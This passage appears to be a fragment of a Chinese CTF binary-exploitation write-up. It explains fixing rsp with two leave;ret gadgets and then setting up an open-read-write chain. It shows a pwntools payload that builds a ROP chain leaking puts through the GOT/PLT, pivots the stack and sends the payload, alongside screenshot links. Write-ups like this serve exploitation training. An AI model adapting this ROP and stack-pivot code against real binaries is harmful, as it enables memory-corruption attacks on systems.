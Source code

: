 两次 leave\_ret 将 rsp 矫正

[![](assets/1701606597-c4cef843a20806b6eabc2d3cc659d768.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231116170511-3f377bd0-845f-1.png)

[![](assets/1701606597-ef0d91dab735a31157ca0ab5f91aa4e2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231116170515-41f63c76-845f-1.png)

**orw：**

布置为 stack\_addr+0x28-8，执行 orw

```bash
payload = p64(stack_addr+0xb0+0x28) 
payload += p64(pop_rdi)+p64(elf.got["puts"])+p64(elf.plt["puts"])+p64(0x401378) 
payload = payload.ljust(0xb0,b'\0')
payload+= p64(stack_addr)+p64(0x4012e0)
p.send(payload)
```

[![](assets/1701606597-55e80d57047948f26a843b42ed0c1ea8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231116170522-45cc390e-845f-1.png)
